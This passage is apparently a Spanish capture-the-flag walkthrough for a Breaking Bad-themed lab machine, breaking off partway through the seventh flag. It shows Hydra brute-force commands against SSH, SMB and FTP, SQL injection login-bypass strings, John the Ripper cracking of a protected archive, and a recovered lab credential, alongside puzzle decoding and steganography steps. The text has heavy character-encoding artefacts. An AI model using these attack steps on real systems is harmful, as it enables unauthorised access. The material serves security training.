nosotros.png | 2025-07-15 11:26 | 402K | Â |
![[TXT]](cookbook/media/image28.gif) |
passwords.txt | 2025-08-12 10:12 | 2.4K | Â |
|
welcome.jpg | 2025-07-16 12:46 | 1.5M | Â |
El archivo passwords.txt contiene cientos de passwords,puede resultar interesante…
El resto de urls que podemos encontrar al desplazarnos por la web son:
http://192.168.1.44/index.html
http://192.168.1.44/localizacion.html
http://192.168.1.44/nosotros.html
http://192.168.1.44/privado.html
http://192.168.1.44/cupones.html
http://192.168.1.44/banderas.php
http://192.168.1.44/moscas.php
Contraseñas
Ya tenemos una lista de usuarios y un diccionario de contraseñas (passwords.txt), podemos usar Hydra para hacer ataque de fuerza bruta contra un servicio.

1️⃣ Si quieres probar contra SSH (puerto 22):
hydra -L /home/kali/usuarios.txt -P /home/kali/passwords.txt ssh://192.168.1.44
-L usuarios.txt → Lista de usuarios.
-P /home/kali/passwords.txt → Lista de contraseñas.
ssh://IP → Servicio y objetivo.

2️⃣ Si quieres probar contra SMB (puertos 139/445):
hydra -L /home/kali/usuarios.txt -P /home/kali/passwords.txt smb://192.168.1.44
(En versiones antiguas de Hydra, SMB se llama smb o smbnt)
3️⃣ Si quieres probar contra FTP (puerto 21):
hydra -L /home/kali/usuarios.txt -P /home/kali/passwords.txt ftp://192.168.1.44
💡 Consejos CTF:
Empieza probando en FTP o SMB antes que en SSH: suelen tener contraseñas débiles y menos restricciones.
Si alguna combinación usuario/contraseña funciona, apúntala y pruébala en todos los servicios.
📠Resumen de la información obtenida:
IP: 192.168.1.44
S.O.: Ubuntu Server
Hostname: lospollos
Servidor: Apache
Puertos:
21/tcp open ftp (Anonymous login allowed)
22/tcp open ssh OpenSSH Ubuntu
80/tcp open http Apache
139/tcp open Samba smb
445/tcp open Samba smb
31337/tcp closed Elite?
Usuarios:
fring
chow
hector
mike
lydia
victor
tyrus
saul
Contraseñas:
Chow: Ch0w$up1
URLs:
http-title: Los Pollos Hermanos
http://192.168.1.44/archivos (directorio listable)
http://192.168.1.44/index.html
http://192.168.1.44/server-status
http://192.168.1.44/localizacion.html
http://192.168.1.44/nosotros.html
http://192.168.1.44/privado.html
http://192.168.1.44/cupones.html
http://192.168.1.44/banderas.php
http://192.168.1.44/moscas.php
Resolución de Moscas
ğŸ Mosca 1 – Verificación Web Inicial
CategorÃa: CriptografÃa/SteganografÃa
Nivel: Básico-Intermedio
Objetivo: Encontrar el valor correcto de la Mosca 1 y
enviarlo al sistema para que quede registrada como atrapada.
🧠Descripción del reto
En el código fuente de la página index.html vemos un comentario que dice:
🧰 Herramientas necesarias
Navegador web (Firefox o Chromium en Kali Linux)
Inspectores de código fuente HTML/JS (DevTools)
Terminal con herramientas como curl
Opcional: Burp Suite si deseas interceptar la petición POST
🾠Paso a paso de resolución
1️⃣ Acceder a la página del reto
firefox http://192.168.1.44/index.html
La página principal de la web Los Pollos Hermanos es mostrada.
2️⃣ Inspeccionar código fuente
En el código fuente de la página index.html vemos un comentario que dice:
<!— ğŸ”
45 6C 5F 61 75 64 69 6F 5F 42 69 65 6E 76 65 6E 69 64 6F 73 5F 65 73 63 6F 6E 64 65 5F 6C 61 5F 6D 6F 73 63 61 5F 31
-->
Este código delata que es hexadecimal por varias razones claras:
🔠1. Rango de caracteres
Cada grupo está compuesto exclusivamente por dos caracteres que son válidos en el sistema hexadecimal:
Los caracteres hexadecimales válidos son: 0-9 y A-F (o a-f).
Todos los bytes en tu cadena cumplen esta regla.
Por ejemplo: 45, 6C, 5F, etc., están dentro del rango hexadecimal (00 a FF).
🔠2. Formato tÃpico de codificación hexadecimal
Está estructurada en pares de dos dÃgitos, lo que es tÃpico de la representación en hexadecimal de bytes (cada byte = 2 dÃgitos hex).
Este formato se usa mucho en codificación de strings, datos binarios, archivos, redes, etc.
3️⃣ Conversión a binario
Cada dÃgito hexadecimal se convierte en un grupo de cuatro bits binarios (un nibble).
• 45 = 0100 0101
• 6C = 0110 1100
• 5F = 0101 1111
• 61 = 0110 0001
• 75 = 0111 0101
• 64 = 0110 0100
• 69 = 0110 1001
• 6F = 0110 1111
• 5F = 0101 1111
• 42 = 0100 0010
• 69 = 0110 1001
• 65 = 0110 0101
• 6E = 0110 1110
• 76 = 0111 0110
• 65 = 0110 0101
• 6E = 0110 1110
• 69 = 0110 1001
• 64 = 0110 0100
• 6F = 0110 1111
• 73 = 0111 0011
• 5F = 0101 1111
• 65 = 0110 0101
• 73 = 0111 0011
• 63 = 0110 0011
• 6F = 0110 1111
• 6E = 0110 1110
• 64 = 0110 0100
• 65 = 0110 0101
• 5F = 0101 1111
• 6C = 0110 1100
• 61 = 0110 0001
• 5F = 0101 1111
• 6D = 0110 1101
• 6F = 0110 1111
• 73 = 0111 0011
• 63 = 0110 0011
• 61 = 0110 0001
• 5F = 0101 1111
• 31 = 0011 0001
Al concatenar todos estos grupos de bits, obtenemos la cadena binaria original:
01000101 01101100 01011111 01100001 01110101 01100100 01101001 01101111 01011111 01000010 01101001 01100101 01101110 01110110 01100101 01101110 01101001 01100100 01101111 01110011 01011111 01100101 01110011 01100011 01101111 01101110 01100100 01100101 01011111 01101100 01100001 01011111 01101101 01101111 01110011 01100011 01100001 01011111 00110001
4️⃣ Conversión de Binario a Texto Plano
https://es.convertbinary.com/de-binario-a-texto/
Ahora, tomaremos cada grupo de ocho bits (un byte) de la cadena binaria y lo convertiremos a su carácter ASCII correspondiente.
• 01000101 = E
• 01101100 = l
• 01011111 = _
• 01100001 = a
• 01110101 = u
• 01100100 = d
• 01101001 = i
• 01101111 = o
• 01011111 = _
• 01000010 = B
• 01101001 = i
• 01100101 = e
• 01101110 = n
• 01110110 = v
• 01100101 = e
• 01101110 = n
• 01101001 = i
• 01100100 = d
• 01101111 = o
• 01110011 = s
• 01011111 = _
• 01100101 = e
• 01110011 = s
• 01100011 = c
• 01101111 = o
• 01101110 = n
• 01100100 = d
• 01100101 = e
• 01011111 = _
• 01101100 = l
• 01100001 = a
• 01011111 = _
• 01101101 = m
• 01101111 = o
• 01110011 = s
• 01100011 = c
• 01100001 = a
• 01011111 = _
• 00110001 = 1
5️⃣ Mensaje Final en Texto Plano
Al juntar todos los caracteres ASCII, obtenemos el mensaje original:
El_audio_Bienvenidos_esconde_la_mosca_1
Ahora tendremos que descargar el archivo de audio para poder inspeccionarlo.
Para verla hay que abrir el archivo Bienvenidos.mp3 que se encuentra en la carpeta ”archivos†con Audacity y ver el Espectograma. Se aprecia la palabra “HEISENBERG”.
🛡️ Notas técnicas
🔹 Ocultación de texto en espectrogramas de audio
1. ¿Qué es?
Es una forma de esteganografÃa en audio.
En lugar de modificar directamente el sonido que se oye, se manipula la representación frecuencia vs tiempo del audio.
El mensaje (texto o imágenes) se convierte en un patrón visual que puede ser visto en el espectrograma, pero no detectado fácilmente al escuchar el audio.
2. Técnicas comunes
Inserción directa de frecuencias:
Se añaden tonos a frecuencias muy altas (cercanas al lÃmite audible >16 kHz).
El oÃdo humano apenas lo percibe, pero en el espectrograma se ven lÃneas o letras.
Modulación por amplitud/fase:
Se “dibujan†formas en el espectrograma alterando la amplitud de ciertas bandas de frecuencia en momentos especÃficos.
El resultado es un “graffiti sonoro†visible como texto o sÃmbolos.
Conversión de texto a imagen y luego a espectrograma:
El texto se renderiza como una imagen.
Esa imagen se convierte a un espectro de audio mediante herramientas como Coagula, Sonic Visualiser o scripts en Python (ej. usando FFT inversa).
Al reproducirlo se escucha ruido extraño, pero en Audacity aparece el mensaje.
3. Cómo verlo en Audacity
Abrir el archivo de audio.
En la pista, clic en el menú desplegable ► Espectrograma.
Ajustar parámetros en ► Configuración del espectrograma:
Rango de frecuencia: subir el máximo (ej. hasta 20 kHz).
Resolución FFT: aumentar (ej. 4096 o más) para ver detalles finos.
Escala logarÃtmica: más natural para leer formas.
Hacer zoom en la zona alta de frecuencias (normalmente donde se ocultan los mensajes).
El texto aparecerá como patrones dibujados (lÃneas, letras, sÃmbolos).
4. Limitaciones
La ocultación aumenta el tamaño del archivo y puede distorsionar el audio.
Si el audio se comprime con pérdida (ej. MP3), se suelen perder las frecuencias ocultas.
Requiere un buen ajuste de parámetros en Audacity para que el mensaje sea visible.
5. Herramientas relacionadas
Audacity → Para visualizar espectrogramas.
Sonic Visualiser → Más especializado en análisis de espectrogramas.
Coagula → Convierte imágenes (incluido texto) en espectrogramas de audio.
FFmpeg → Puede generar espectrogramas directamente con filtros (showspectrumpic).
ğŸ Resultado final
La Mosca 1 queda atrapada con el valor 'HEISENBERG'.
Mosca 1 atrapada: 'HEISENBERG'
ğŸ Mosca 2 – EsteganografÃa en Metadatos
CategorÃa: EsteganografÃa / Forense digital
Nivel: Intermedio
Objetivo: Extraer el valor secreto oculto en un archivo
de imagen para capturar la Mosca 2 correctamente.
ğŸ› ï¸ Herramientas necesarias
wget o navegador para descargar el archivo
file, strings, exiftool para metadatos
binwalk, zsteg, strings, grep para análisis profundo
📠Fase 1 – Descarga y reconocimiento del archivo
En el código fuente de la página localizacion.html vemos un comentario que dice:
<!— ğŸ”
++++++++++[>+++++++>+++++++++++>+++>+++++++++++>++++++++++>+++>+++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++>+++++++++++>+++>++++++++++>++++++++++>+++++++++++>+++>++++++++++>+++++++++++>+++++++++++>++++++++++>+++++++++++>+++++++++++>+++++++++++>+++>++++++++++>++++++++++>+++>++++++++++>++++++++++++>++++++++++++>++++++++++>+++>+++++++++++>++++++++++++++++++++>++++++++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++>+++>++++++++++>++++++++++++>++++++++++++>++++++++++++++++++++>++++++++++++++++>+++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++>+++++++++++>++++++++++>++++++++++>+++>+++++++++++>++++++++++>+++>++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++>+++>+++++<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<-]>-.>.>++.>--.>---.>++.>-----.>-.>---.>+++.>+.>.>++.>.>+.>--.>++.>++++.>+.>++++.>---.>++++.>-----.>+.>++.>.>+.>++.>+.>-----.>----.>---.>++.>++.>-----.>+.>+++.>-----.>.>---.>++.>+.>-----.>----.>-----.>+.>++.>+.>-----.>-.>+.>.>.>-----.>.>---.>++.>--.>---.>++.>---.>+.>-----.>-.>---.>++.>.
-->
La cadena es un código en el lenguaje de programación Brainfuck, y se puede identificar por varias caracterÃsticas muy concretas:
1. ✅ Solo usa 8 sÃmbolos válidos
Brainfuck únicamente utiliza los siguientes 8 caracteres como instrucciones:
> < + - [ ] . ,
El código contiene exclusivamente estos sÃmbolos (entre más de 700 caracteres), lo cual es la pista más evidente de que pertenece a Brainfuck.
2. ✅ Uso intensivo de bucles con [ y ]
La secuencia ++++++++++[ al inicio es un patrón clásico en Brainfuck para iniciar un bucle que sirve como multiplicador o generador de valor base.
Los bucles [ y ] son usados para iterar mientras el valor actual del puntero no sea 0, tÃpico de bucles de inicialización en este lenguaje.
3. ✅ Patrones comunes de inicialización y escritura de texto
El inicio:
++++++++++[>+++++++>+++++++++++>+++...
Es un patrón conocido para precargar celdas de memoria con valores especÃficos antes de imprimir texto.
La parte final con muchas >.>+.>---. y similares:
Son instrucciones tÃpicas para imprimir caracteres uno tras otro con . y manipular el puntero/memoria para moverse (<, >) y ajustar (+, -).
4. ✅ Ausencia de cualquier otro sÃmbolo
No hay letras, números, espacios ni puntuación (más allá del punto . de Brainfuck), lo que excluye otros lenguajes.
Lenguajes como C, Python, Java, etc., usan muchos más caracteres y estructuras (palabras clave, paréntesis, comillas, etc.).
Brainfuck es un lenguaje de programación minimalista y esotérico, diseñado para ser lo más simple y retorcido posible. A pesar de su aspecto extraño, ¡es Turing completo! Solo tiene 8 instrucciones, y funciona sobre una cinta de memoria similar a una máquina de Turing.
Conceptos básicos
Imagina una cinta de celdas (como un array) con valores del 0 al 255.
Hay un puntero que señala una celda a la vez.
Solo hay 8 comandos para manipular esa cinta y el puntero.
Los 8 comandos de Brainfuck
| Comando | Significado |
|---|---|
| > | Mueve el puntero una celda a la derecha |
| < | Mueve el puntero una celda a la izquierda |
| + | Incrementa el valor en la celda actual |
| - | Decrementa el valor en la celda actual |
| . | Imprime el carácter ASCII de la celda actual |
| , | Lee un carácter de entrada (no usado en tu código) |
| [ | Si la celda actual vale 0, salta al comando después del ] correspondiente |
| ] | Si la celda actual no vale 0, vuelve al comando después del [ correspondiente |
Ejemplo breve
+++++ → pone el valor 5 en la celda actual
[ → comienza un bucle que se repetirá 5 veces
> + → mueve a la siguiente celda y suma 1
< - → vuelve a la celda anterior y resta 1
] → repite el bucle mientras la celda inicial no sea 0
Este ejemplo copia el valor 5 en la celda siguiente (con valor 1 al final del bucle).
¿Por qué usarlo?
No es práctico, pero es excelente para desafÃos mentales, obfuscación o incluso esteganografÃa.
Lo usan en retos CTF, puzzles y demostraciones de teorÃa de la computación.
🔠Fase 2 – Descifrando Brainfuck
Podemos utilizar algún servicio online para descifrarlo:
https://md5decrypt.net/en/Brainfuck-translator/
Traducido serÃa:
<!— ğŸ”
En la imagen del horario de esta página está escondida la Mosca 2
-->
Esta pista nos lleva a analizar la imagen horario.jpg
En la imagen horario.jpg de la página localización.html se han modificado los metadatos para incluir la mosca 2 en el campo Artist:
exiftool -overwrite_original \
-Artist="HECTOR_SALAMANCA" \
-Comment="Esta imagen tiene algo escondido" \
-UserComment="El Artist es la MOSCA 2" \
-XPComment="ğŸ”" \
horario.jpg
📊 Fase 3 – Análisis de metadatos
Inspección con exiftool
exiftool horario.jpg
Buscamos campos como:
Comment
Lyrics
Encoded by
🯠Si encontramos algo como:
Artist: 'HECTOR_SALAMANCA'
➡️ ¡Bandera obtenida! – MOSCA 2= HECTOR_SALAMANCA
✅ Fase Final – Verificación
Tras el análisis, el valor correcto extraÃdo es:
'HECTOR_SALAMANCA'
En la interfaz web:
Selecciona Mosca 2
Introduce 'HECTOR_SALAMANCA'
Mensaje esperado:
✅ ¡Correcto! Has atrapado la Mosca 2 ğŸ
Flag aceptado: 'HECTOR_SALAMANCA'
Total de moscas atrapadas: 2 / 10
ğŸ Resultado final
Mosca 2 atrapada: 'HECTOR_SALAMANCA'
ğŸ Mosca 3 – Código Qr
CategorÃa: CriptografÃa / Misc
Nivel: Inicial
Flag real: 'TUCO_SALAMANCA'
ğŸ› ï¸ Herramientas necesarias
[x] Lector de códigos Qr
[x] Editor Hexadecimal
📠Fase 1 – Localización de la pista
En la página menú.html nos encontramos con una imagen de un código QR que se llama menuQR.png.
🔠Fase 2 – Leer código Qr
Si lo leemos nos descubre el siguiente texto:
Texto: Dentro de este QR encontrarás la Mosca 3
Este Qr está creado con un servicio online que permite asociar texto a un código Qr:
📤 Fase 3 – Analizar código Qr
Si abrimos la imagen con un editor Hexadecimal para poder podemos ver al final que el archivo ha sido modificado y encontramos la Mosca 3:
✅ Valor confirmado. MOSCA3='TUCO_SALAMANCA'
✅ Fase Final – Verificación Web
En la interfaz de retos:
Selecciona Mosca 3
Introduce 'TUCO_SALAMANCA'
Resultado:
✅ ¡Correcto! Has atrapado la Mosca 3 ğŸ
Flag aceptado: 'TUCO_SALAMANCA'
Total de moscas atrapadas: 3 / 10
🧠Razonamiento técnico
Lectura del QR: análisis en capa de aplicación (texto asociado).
Editor Hexadecimal: análisis en capa de archivo/binario, para descubrir contenido añadido fuera de especificaciones.
El reto enseña la importancia de no confiar en la primera capa visible de un objeto digital.
Este reto combina esteganografÃa básica en un PNG con uso de un QR como señuelo. La clave estaba en saber que el QR por sà solo no contenÃa la solución, sino que habÃa que examinar el archivo binario con herramientas de bajo nivel.
ğŸ Resultado final
Mosca 3 atrapada: 'TUCO_SALAMANCA'
ğŸ Mosca 4 – Simulación de Inyección SQL en Formulario Web
CategorÃa: CriptografÃa/Web Exploitation/Inyección
SQL (SQLi)
Nivel: Intermedio
Mosca capturada: 'MIKE_EHRMANTRAUT'
🧰 Herramientas necesarias
Navegador (Firefox o Chromium)
DevTools para inspección
Burp Suite opcional para interceptar peticiones
Conocimientos básicos de lógica SQL y vulnerabilidades
📠Descifrando la pista
En el código fuente de la página privado.html nos encontramos este mensaje:
<!--
ğŸ”
ᒧᒬᒷᒥᒪᒧ ᐯ⩀ᒷᒥ ᒧᒷ ⊏⪽⟔⪾ᐸᒷᒧ⟔ᒥ⪽ ⊐☐ ☐ᐯᐳᒧ ᒬᒧᒣᒥ🝕ᒧ ᒬᒧ⟔ᒧ ☐🝕ᒪ⪽🝕ᐳ⟔ᒧ⟔ ᒷᒧ ⪾⪽ᐯᒪᒧ 4
-->
Este mensaje tiene un cifrado Pigpen.
El Cifrado Pigpen, también conocido como cifrado masónico o de los francmasones, es un cifrado de sustitución monoalfabética que se basa en la representación visual de las letras del alfabeto mediante fragmentos de una cuadrÃcula o "corrales de cerdos" (de ahà su nombre, "pigpen" en inglés significa chiquero o pocilga). Es un método de cifrado simple y visualmente distintivo.
¿Cómo Funciona?
El principio fundamental del cifrado Pigpen es que cada letra se sustituye por el fragmento de la rejilla que la contiene. Para ello, se utilizan tÃpicamente dos rejillas principales y dos rejillas en forma de 'X', cada una dividida para contener una serie de letras. Algunas letras se distinguen añadiendo un punto dentro de su sÃmbolo.
Aquà están las configuraciones más comunes de las rejillas:
1. Rejillas Cuadradas (Grid)
Se dividen en nueve celdas cada una, como un "tres en raya".
Primera Rejilla (sin punto): Contiene las primeras letras del alfabeto.
┌───┬───┬───┐
│ A │ B │ C │
├───┼───┼───┤
│ D │ E │ F │
├───┼───┼───┤
│ G │ H │ I │
└───┴───┴───┘
Ejemplo: La letra 'A' se representa con la esquina superior izquierda de la cuadrÃcula. La 'E' se representa con el cuadrado completo sin lados externos. La 'H' se representa con la parte inferior de la cuadrÃcula.
Segunda Rejilla (con un punto): Contiene las siguientes letras, y los sÃmbolos resultantes llevan un punto.
┌───┬───┬───┐
│ J•│ K•│ L•│
├───┼───┼───┤
│ M•│ N•│ O•│
├───┼───┼───┤
│ P•│ Q•│ R•│
└───┴───┴───┘
Ejemplo: La letra 'J' se representa con la esquina superior izquierda con un punto. La 'N' se representa con el cuadrado completo con un punto.
2. Rejillas en Cruz (X-Grid o Tic-Tac-Toe Diagonal)
Se forman con lÃneas diagonales que crean cuatro "brazos" o "picos" en cada rejilla.
Primera Rejilla X (sin punto):
╲ A'╱
╳
╱ B'╲
AquÃ, las letras se colocan en los "brazos" que se forman. Por ejemplo, la 'S' (o a veces 'U' o 'T' dependiendo de la variante) podrÃa ser el sÃmbolo que representa la 'V' inclinada hacia la derecha.
Segunda Rejilla X (con un punto): Similar a la anterior, pero los sÃmbolos llevan un punto.
╲ C'•╱
╳
╱ D'•╲
Variantes
Es importante destacar que existen varias variantes del cifrado Pigpen. La asignación de letras a los "corrales" puede cambiar, y el orden de las letras en las rejillas en 'X' a veces difiere.
Por lo tanto, para descifrar un mensaje Pigpen, es crucial conocer la clave o la plantilla exacta utilizada por el emisor.
CaracterÃsticas
• Simple de usar: Una vez que se conoce la clave, la codificación y decodificación son directas.
• Visualmente distintivo: Los sÃmbolos resultantes son únicos y no se parecen a las letras del alfabeto latino, lo que lo hace parecer "secreto" a primera vista.
• No ofrece gran seguridad: Es un cifrado muy fácil de romper mediante el análisis de frecuencia si el texto es lo suficientemente largo, o simplemente probando las variantes conocidas del alfabeto Pigpen.
• Histórico: Se hizo popular entre los francmasones en el siglo XVIII para proteger documentos de su orden, aunque su origen podrÃa ser anterior.
En resumen, el cifrado Pigpen es un método divertido y visualmente interesante para ocultar mensajes, pero su simplicidad lo hace más adecuado para acertijos o juegos que para una seguridad de comunicación robusta.
https://www.dcode.fr/cifrado-pigpen
El texto sin encriptar dice:
<!--
ğŸ”
Aplica SQLi al formulario de esta pagina para encontrar la mosca 4
-->
🌠Acceso inicial
http://192.168.1.44/privado.html
En esta página hay un formulario de acceso privado con dos campos:
Usuario
Contraseña
La acción del formulario apunta a:
validar.php
Este archivo procesa el POST de los campos usuario y clave.
🔠Comportamiento del formulario
Introducir credenciales válidas muestra un mensaje de acceso concedido.
Credenciales incorrectas generan un alert("Acceso denegado").
El formulario simula que si el usuario introduce una cadena que parece una inyección SQL (por ejemplo ' OR '1'='1), el sistema muestra acceso concedido con el nombre del personaje Mike Ehrmantraut, como si hubiera “hackeado†la entrada.
validar.php
<?php
$usuario = $_POST['usuario'];
$clave = $_POST['clave']; // dejamos el caso original sin forzar lowercase
// Simulación de patrón tÃpico de SQL Injection
$patrones_inyeccion = [
"' OR '1'='1",
"' or '1'='1",
"' OR 1=1 --",
"' or 1=1 --",
"' OR 1=1 #",
"' OR TRUE --",
"'='"
];
// Comprobamos si la cadena ingresada coincide con algún patrón tÃpico
foreach ($patrones_inyeccion as $patron) {
if (stripos($clave, $patron) !== false) {
// Simulamos acceso exitoso como si la inyección hubiera funcionado
echo "
<!DOCTYPE html>
<html lang='es'>
<head>
<meta charset='UTF-8'>
<title>Acceso concedido</title>
<style>
body {
background-color: #fef8e7;
font-family: 'Arial Black', Impact, sans-serif;
display: flex;
align-items: center;
justify-content: center;
height: 100vh;
}
.mensaje {
background-color: #d4edda;
border: 2px solid #155724;
padding: 40px;
border-radius: 15px;
text-align: center;
color: #155724;
font-size: 24px;
box-shadow: 0 0 10px rgba(0,0,0,0.2);
}
</style>
</head>
<body>
<div class='mensaje'>
✅ Acceso concedido<br><br>
<strong>¡Bienvenido, Mike_Ehrmantraut!</strong><br>
<strong>Flag:</strong> Mike_Ehrmantraut
</div>
</body>
</html>
";
exit;
}
}
// Si no se detectó inyección
echo "<script>alert('Acceso denegado.'); window.history.back();</script>";
?>
🔠Análisis de vulnerabilidad
El formulario no valida el contenido del campo clave de forma segura. Internamente, el script compara el valor ingresado contra una serie de patrones conocidos de inyección SQL, como:
' OR '1'='1
' OR TRUE --
'='
Si alguno de estos aparece en la cadena de entrada, se simula un bypass y se concede acceso.
🧪 Ejecución de la inyección
En el formulario:
Usuario: cualquier valor (admin, test, vacÃo)
Contraseña: ' OR '1'='1
âš ï¸ Es importante escribirlo exactamente asÃ, con espacios y comillas simples:
' OR '1'='1
Las comillas y los espacios deben estar intactos, ya que el sistema realiza una comparación con patrones precisos (stripos), no expresiones regulares ni sanitización avanzada.
✅ Resultado esperado
Tras enviar los datos, el servidor responde con una página distinta que contiene:
✅ Acceso concedido
¡Bienvenido, Mike_Ehrmantraut!
Flag: MIKE_EHRMANTRAUT
Esto representa la captura de la Mosca 4.

🧠Razonamiento técnico
No se requiere acceso a base de datos real.
El sistema simula el comportamiento de una inyección SQL utilizando coincidencias estáticas.
Este reto educa en patrones clásicos de SQLi y en la importancia del escaping y la validación del lado servidor.
ğŸ Resultado final
Mosca 4 atrapada: 'MIKE_EHRMANTRAUT'
El jugador puede registrarla en el sistema central o apuntarla manualmente según el entorno del CTF.
ğŸ Mosca 5 – Crackeo de Contraseña de Archivo Protegido (.rar)
CategorÃa: Cripto / Fuerza bruta simulada
Nivel: Intermedio
Mosca capturada: Jesse_Pinkman
🧰 Herramientas necesarias
John the Ripper
Terminal Linux / macOS (o Windows con WSL)
Archivos del reto: algo.rar y passwords.txt
📠Contenido inicial
Dentro de la carpeta “archivos†del entorno web hay dos archivos:
algo.rar: archivo comprimido protegido por contraseña
passwords.txt: contiene una lista de 200 posibles contraseñas
🧠Enunciado oculto
En el código fuente de privado.html aparece una pista con estilo narco-retorcido. Se indica que hay un archivo testarudo que no se abre sin la clave correcta, y que “John†sabe destripar secretos:
<!--
ğŸ”
Ajúa, valedor...
En esta carpeta hay un algo bien testarudo que no se deja abrir nomás porque sÃ.
Hay también una lista con 200 posibles llaves… pero solo una hace que el candado truene.
Si quieres saber qué se esconde ahà dentro, tendrás que ponerte trucha.
Pide ayuda a John, ese que es bueno pa' destripar secretos...
Usa la lista con maña y ve probando. Si das con la clave buena, algo saldrá.
¿Tendrás lo que se necesita pa’ sacar algo de su escondite?
-->
Esto nos lleva directamente al uso de la herramienta John the Ripper, que incluye funciones para crackear archivos .rar protegidos.
Veamos el paso a paso para usar John the Ripper y descubrir cuál de las contraseñas del archivo passwords.txt abre el archivo algo.rar.
Archivos:
algo.rar → archivo protegido
passwords.txt → lista de +200 contraseñas posibles
🧪 Procedimiento paso a paso
1. Extraer el hash del archivo .rar
Usamos el módulo rar2john para convertir el archivo comprimido en un hash legible por John:
rar2john algo.rar > rar_hash.txt
Esto genera un archivo rar_hash.txt con la firma hash del archivo comprimido.
2. Ejecutar el cracking con diccionario
Ahora lanzamos John usando la lista de contraseñas:
john --wordlist=passwords.txt rar_hash.txt
Este comando empieza a probar todas las combinaciones de passwords.txt contra el hash generado del archivo .rar.
3. Ver la contraseña encontrada
Una vez terminado el proceso, verificamos cuál fue la clave con:
john --show rar_hash.txt
🧩 Resultado
John revela que la contraseña correcta para descomprimir algo.rar es:
mW5#nC4!vE
Al usar esta clave con cualquier programa de descompresión (7-Zip, WinRAR, etc.), el archivo se desbloquea y encontramos la Mosca 5:
Mosca 5 atrapada: 'Jesse_Pinkman'
🧠Razonamiento técnico
El reto demuestra un uso realista y práctico de cracking de contraseñas mediante diccionario.
Se plantea una simulación controlada del proceso de fuerza bruta usando herramientas especializadas.
El reto es educativo sobre seguridad y cifrado en archivos .rar.
ğŸ Mosca 6 – Descompresión + Braille oculto en imagen
CategorÃa: EsteganografÃa / OCR / Cripto
visual
Nivel: Intermedio
Mosca capturada: Metanfetamina
📠Contenido de la carpeta
PIN.png: imagen simulando calor por contacto (efecto térmico de pantalla)
PAN.rar: archivo comprimido protegido por contraseña
🔠Análisis de la pista
En el código fuente de menu.html, se encuentra una rima en estilo corrido mexicano:
<!—
ğŸ”
"Entre el PIN y el PAN hay maña y no desayuno,
uno se ve bonito, pero trae truco alguno.
El PIN, que parece inocente retrato,
esconde en sus pÃxeles un dato muy sensato.
No lo mires nomás, échale ojo de aguililla,
que la clave pa’ abrir el PAN está bien escondidilla.
Y el PAN, tan calladito, no suelta su manjar,
si no le das la clave que el PIN te va a soltar.
Asà que ponte trucha, no te vayas a confiar,
que del PIN sale la clave… ¡y el PAN te va a alimentar!"
-->
Esto sugiere que:
La clave para abrir PAN.rar está en PIN.png
El contenido oculto del archivo comprimido es la Mosca 6
🧪 Paso a paso técnico
1. Identificar el PIN térmico
Este mensaje nos lleva a la carpeta archivos donde tenemos PIN.png y PAN.rar. La imagen PIN.png simula una pantalla con efecto térmico. Al observar la intensidad del color en cada dÃgito, se deduce la secuencia más reciente pulsada (más roja, más reciente).
Resultado observado:
PIN = 9348
2. Descomprimir PAN.rar con el PIN como clave
Usamos 7-Zip, WinRAR o terminal para intentar descomprimir con contraseña:
unrar x PAN.rar
Cuando solicita clave, ingresamos:
9348
El archivo se descomprime correctamente, revelando:
PAN.txt: contiene un mensaje en Braille Unicode
3. Interpretación del Braille
Contenido de PAN.txt:
â â ‘â â â â ‹â ‘â â â â Šâ â
Esto es Braille Unicode. Vamos a probar a descifrarlo con alguno de los servicios que hay online.
Utilizamos traductores como:
https://openl.io/es/translate/braille
https://www.brailletranslator.org/es.html
https://www.brailletranslator.org/es.html
https://www.braillecaster.net/

El texto â â ‘â â â â ‹â ‘â â â â Šâ â significa Metanfetamina
ğŸ Resultado final
Mosca 6 atrapada: 'Metanfetamina'
🧠Razonamiento técnico
La pista se presenta en forma de acertijo poético para identificar el orden de pulsación.
Se introduce el concepto de esteganografÃa visual, cifrado Braille y extracción de contraseñas no convencionales.
Enfrenta al jugador con la interpretación de códigos no textuales—ideal para retos tipo CTF que mezclan lo digital con lo analógico.
ğŸ Mosca 7 – MD5 de Imagen JPEG
CategorÃa: Cripto / Hash / IngenierÃa Digital
Nivel: Básico
Mosca capturada: 27303a04ee484427ca5b3eb482772f3f
🧰 Herramientas necesarias
Navegador o editor HTML para leer código fuente
Imagen menu6.jpg
Generador de hash MD5 (puede ser web o desde terminal)
📜 Pista inicial
En el código fuente de la página menu.html encontramos el siguiente código:
<!—
ğŸ”
105 154 40 150 141 163 150 40 115 104 65 40 144 145 40 154 141 40 151 155 141 147 145 156 40 144 145 154 40 155 145 156 165 40 66 40 145 163 40 154 141 40 155 157 163 143 141 40 67
-->
A simple vista, este código podrÃa ser Octal ya que no hay ningún 8 ni ningún 9.
¿Qué es octal?
El sistema octal usa base 8 (dÃgitos del 0 al 7). Cada número representa un valor que puede convertirse a decimal, y luego a un carácter según el código ASCII.
Procedimiento para decodificar:
1. Interpretar cada número como octal.
2. Convertir a decimal.
3. Convertir el decimal a carácter ASCII.
Ejemplo con los primeros valores:
105 (octal) → 1×64 + 0×8 + 5 = 69 → 'E'
154 (octal) → 1×64 + 5×8 + 4 = 108 → 'l'
40 (octal) → 4×8 + 0 = 32 → espacio ' '
150 (octal) → 1×64 + 5×8 + 0 = 104 → 'h'
141 (octal) → 1×64 + 4×8 + 1 = 97 → 'a'
163 (octal) → 1×64 + 6×8 + 3 = 115 → 's'
150 (octal) → 104 → 'h'
Hasta aquà ya tenemos:
105 154 40 150 141 163 150
↓
E l ⣠h a s h
Podemos usar alguno de los servicios online para traducirlo:
https://photo333.com/text-to-octal-es.php
https://seostudio.tools/es/text-to-octal
Esto nos revela el siguiente texto::
<!--
ğŸ”
El hash MD5 de la imagen del menu 6 es la mosca 7
-->
Según esto debemos sacar el hash MD5 de la imagen menu6.jpg que está en la carpeta archivos:
El hash MD5 de la imagen del menú 6 es la Mosca 7
Esto nos indica que debemos calcular el hash MD5 de menu6.jpg.
🧪 Procedimiento técnico
1. Acceder al archivo menu6.jpg
Asegúrate de tener acceso local a la imagen en la carpeta de archivos del CTF.
2. Calcular el hash MD5
Puedes hacerlo de dos maneras:
🔧 Desde terminal (Linux/macOS)
md5sum menu6.jpg
